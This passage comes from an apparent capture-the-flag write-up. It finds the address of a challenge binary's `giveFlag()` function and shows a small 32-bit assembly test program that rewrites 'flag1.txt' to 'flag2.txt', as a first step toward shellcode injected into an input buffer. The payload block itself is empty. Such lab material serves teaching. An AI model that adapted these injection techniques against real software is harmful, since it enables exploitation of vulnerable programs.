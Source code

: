 We also need the location of the `giveFlag()` function:

![GiveFlag() in memory](location_of_giveflag.png)

This is at `0x080486AB`.

Now we can write some assembly language to try to change `flag1.txt` to `flag2.txt` and jump into the `giveFlag()` function.

First, I wrote some code to check I have a working piece of assembly language before inserting it in the input buffer:
```asm
# Write to address and jump to function
    global _start
    section .text

_start:
    mov byte [fname+4], 0x32
    jmp printFunc
    ret

printFunc:
  xor eax, eax
  mov ecx, fname      ; Message address in RSI
  mov al, 4           ; System interupt for write (for 32-bit)
  xor ebx, ebx
  mov bl, 1           ; Use stdout
  xor edx, edx
  mov dl, 10          ; Number of bytes
  int 0x80
  mov al, 1           ; Now exit
  xor ebx, ebx        ; With status 0
  int 0x80

  section .data
fname:
  db "flag1.txt", 10
```
This changes the data, and prints out the result to check the code is correct. It was compiled and run with:
```
> nasm -felf change_filename.asm -o change_filename.o && ld -m elf_i386 -o change_filename change_filename.o
> ./change_filename 
flag2.txt
```
So now that works, we can write our actual code which is much smaller:
```asm
```